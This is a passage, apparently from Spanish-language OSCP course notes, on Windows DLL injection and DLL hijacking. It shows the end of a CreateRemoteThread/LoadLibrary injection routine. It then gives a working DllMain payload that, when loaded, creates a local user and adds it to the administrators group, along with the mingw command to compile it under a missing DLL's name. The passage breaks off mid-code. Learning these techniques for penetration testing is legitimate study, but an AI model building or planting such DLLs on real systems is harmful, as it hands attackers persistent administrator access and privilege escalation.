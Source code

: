 ```C
    }

    // Create a remote thread in the target process that starts at LoadLibrary and points to the DLL path
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryAddress, dllPathAddressInRemoteMemory, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread in target process\n");
        return -1;
    }

    printf("Successfully injected example.dll into target process\n");

    return 0;
}
```

----

## DLL Hijacking
- El concepto es reemplazar un DLL utilizado por un programa por otro DLL que contenga código malicioso para elevar privilegios.
- Hipoteticamente sabemos que el programa carga un DLL que no existe en el sistema, entonces podemos crear un DLL con el mismo nombre y cargarlo en la memoria del proceso.
- O también hipoteticamente sabemos que el programa carga un DLL que existe en el sistema, pero lo reemplazamos por otro DLL que contenga código malicioso.

#### Ejemplo de DLL Hijacking

```cpp

#include <stdlib.h>
#include <windows.h>

// Super inyección mega básica del curso OSCP
// Este código implementa una DLL que realiza una inyección básica al ser cargada en un proceso.
// La función DllMain es el punto de entrada de la DLL y ejecuta diferentes acciones dependiendo del motivo de la llamada.
// Para compilar en Kali Linux utilizamos mingw64 con el siguiente comando:
// x86_64-w64-mingw32-gcc SuperBasicInjection.cpp --shared -o SomeMissingDLL.dll
// Para compilar desde Visual Studio, simplemente cree un proyecto de DLL y agregue este archivo fuente.

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		// Este caso se ejecuta cuando la DLL es cargada en un proceso.
		// Aquí se realiza la inyección de código.
		// En este ejemplo, se crea un usuario local con privilegios de administrador.
		int i;
		i = system("net user /add test-account test1234"); // Crea un usuario llamado "test-account" con contraseña "test1234".
		i = system("net localgroup administrators test-account /add"); // Agrega el usuario al grupo de administradores locales.
		break;
	case DLL_THREAD_ATTACH:
		// Este caso se ejecuta cuando un nuevo hilo se crea en el proceso que cargó la DLL.
		break;
	case DLL_THREAD_DETACH:
```